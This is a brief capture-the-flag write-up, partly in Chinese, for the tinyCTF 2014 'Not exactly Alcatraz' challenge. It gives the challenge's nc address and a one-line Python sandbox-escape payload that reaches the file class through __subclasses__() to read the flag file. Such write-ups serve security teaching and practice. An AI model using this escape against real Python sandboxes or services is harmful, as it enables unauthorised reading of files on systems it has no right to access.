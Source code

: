 # tinyCTF 2014 - Notes

## Not exactly Alcatraz
> Description
>
> Exploit this Over here: nc 54.69.118.120 6000 Flag is in /home/pybaby/flag.txt

這題直接給一個 python code ，然後要可以讀檔，且她過濾的東西很少

要直接讀檔可以用
```
$ ().__class__.__bases__[0].__subclasses__()[40]("./flag").read()
```

